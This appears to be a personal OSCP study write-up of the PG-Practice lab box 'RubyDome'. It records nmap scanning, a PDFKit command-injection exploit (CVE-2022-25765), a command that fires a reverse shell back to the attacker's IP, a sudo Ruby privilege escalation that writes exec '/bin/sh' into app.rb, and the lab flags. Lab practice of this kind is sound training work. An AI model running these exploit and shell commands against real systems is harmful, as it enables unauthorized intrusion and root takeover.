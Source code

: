 ```yaml
---
Date: 2024-10-06
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Easy
Status: Complete
IP: 192.168.228.22
Writeup: https://r4j3sh.medium.com/rubydome-pg-practice-writeup-7749fe58bbe5
---
```

# RubyDome
Frustrating that a couple of key points in this box were only broken through with the use of the walkthrough. Throwing `127.0.0.1` into the website to break it was a new one (something to keep in mind for the future) but I'd have never worked out without the walkthrough. 

Likewise the exploit initially appeared to be working perfectly but wasn't catching a shell, and it turned out I had to add "pdf" onto the end of the target web address.

Finally, abusing binary privileges turned out to be a weird one too, as I had to add the command to the `app.rb` file and then execute from the sudo binary. Awesome that it worked, and another one to keep in mind for the future, but I'm doing my best not to lean to heavily on walkthroughs at the moment, and this makes it feel like I am.
# Resolution summary
- Ran Nmap to find services on port 22 & 3000
- Inspected html on port 3000, found HTML to PDF service
- Found error by entering `127.0.0.1` to identify vulnerable service (PDFKit 0.8.6)
- Identified and ran command injection exploit to catch reverse shell
- Enumerated `andrew` user, identified `sudo` privileges for `ruby`
- Used GTFObins to identify privesc vector by writing bash command to `app.rb` 
- Executed `app.rb` with `sudo` to become `root`
## Improved skills
- skill 1
- skill 2
## Used tools
- nmap
- GTFOBins
- Searchsploit

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN rubydome.nmap 192.168.228.22 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
3000/tcp open  http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: RubyDome HTML to PDF
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 8.9p1)

## Port 3000 - HTTP (WEBrick 1.7.0 / Ruby 3.0.2)
- Navigated to `http://192.168.228.22:3000/`
![[Cybersecurity-Resources/images/Pasted image 20241006133635.png]]
- Attempted to get PDF for `http://127.0.0.1`, received error for `PDFKit`
![[Cybersecurity-Resources/images/Pasted image 20241006134352.png]]
- Identified PDFKit version (0.8.6) (required expanding "Backtrace" details)
- Identified PDFKit uses url for POST parameter
![[Cybersecurity-Resources/images/Pasted image 20241006135551.png]]
---
# Exploitation
## Command Injection
PDFKit 0.8.6 is vulnerable to command injection (CVE-2022–25765), then identified exploit `51293.py` is available to use command injection to create a reverse shell.
- Ran exploit command;
  `python3 51293.py -s 192.168.45.175 80 -w http://192.168.228.22:3000/pdf -p url`
  ![[Cybersecurity-Resources/images/Pasted image 20241006140548.png]]
- Caught reverse shell as `andrew` with Netcat listener
![[Cybersecurity-Resources/images/Pasted image 20241006140629.png]]

---
# Lateral Movement to user
## Local Enumeration
- Upgrade to full TTY, moved to `andrew` home directory, printed `local.txt`
![[Cybersecurity-Resources/images/Pasted image 20241006140943.png]]
- Ran `cat /etc/passwd` to also find `offsec` user
![[Cybersecurity-Resources/images/Pasted image 20241006141118.png]]
- Ran `sudo -l` to find `andrew` has sudo privilege for `/usr/bin/ruby`
![[Cybersecurity-Resources/images/Pasted image 20241006141248.png]]
- Ran `ls -lah` inside `/app` directory and identified `andrew` has `rwx` privilege over `app.rb`
![[Cybersecurity-Resources/images/Pasted image 20241006144015.png]]
---
# Privilege Escalation
## Sudo Binary - GTFOBins
- Identified `andrew` has sudo privilege of `/home/andrew/app/app.rb`, and relevant binary vulnerability found on GTFObins
![[Cybersecurity-Resources/images/Pasted image 20241006144115.png]]
- Echoed `exec "/bin/sh"` into `app.rb` 
![[Cybersecurity-Resources/images/Pasted image 20241006144334.png]]
- Ran `app.rb` as Sudo to achieve `root`
![[Cybersecurity-Resources/images/Pasted image 20241006144355.png]]

---
# Trophy & Loot
`local.txt` = `a779352dd3270666856f7cbd34073f4b`
`root.txt` = `78aba0e8e3abe4e15304b6fda4649006`
![[Cybersecurity-Resources/images/Pasted image 20241006144618.png]]